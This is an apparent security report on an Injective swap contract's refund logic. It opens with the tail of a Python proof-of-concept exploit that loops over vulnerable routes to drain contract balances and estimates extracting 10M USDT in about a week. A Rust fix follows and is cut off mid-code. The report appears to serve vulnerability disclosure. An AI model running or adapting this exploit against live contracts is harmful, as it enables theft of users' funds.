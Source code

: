 ```python
        total_profit = 0
        for i in range(max_iterations):
            for route in vulnerable_routes:
                try:
                    amount = self.calculate_optimal_amount(route)
                    result = self.execute_exploit(route, amount)
                    total_profit += amount['profit']
                    
                    print(f"[*] Iteration {i+1}: Total extracted: {total_profit} USDT")
                    
                    # Check if contract still has balance
                    if not self.contract_has_balance(route['source_denom']):
                        print(f"[!] Contract drained of {route['source_denom']}")
                        break
                        
                except Exception as e:
                    print(f"[-] Exploit failed: {e}")
                    
        print(f"\n[+] Exploitation complete. Total profit: {total_profit} USDT")

if __name__ == "__main__":
    # Example usage (DO NOT USE ON MAINNET)
    exploit = RefundExploit(
        rpc_url="https://testnet.rpc.url",
        contract_addr="inj1contract..."
    )
    
    # Find vulnerable routes
    routes = exploit.find_vulnerable_routes()
    
    # Calculate potential impact
    if routes:
        print(f"\n[!] Found {len(routes)} vulnerable routes")
        print("[!] Potential daily extraction: 1,440,000 USDT")
        print("[!] Time to drain 10M USDT: ~7 days")
        
        # Uncomment to run exploit (TESTING ONLY)
        # exploit.run_exploitation_campaign(max_iterations=10)
```

### Recommended Fix Implementation

```rust
// File: /workspace/contracts/swap/src/swap.rs
// Replace lines 52-89 with:

let refund_amount = if matches!(swap_quantity_mode, SwapQuantityMode::ExactOutputQuantity(..)) {
    let target_output_quantity = quantity;

    let estimation = estimate_swap_result(
        deps.as_ref(),
        &env,
        source_denom.to_owned(),
        target_denom,
        SwapQuantity::OutputQuantity(target_output_quantity),
    )?;

    let querier = InjectiveQuerier::new(&deps.querier);
    let first_market_id = steps[0].to_owned();
    let first_market = querier.query_spot_market(&first_market_id)?
        .market
        .expect("market should be available");

```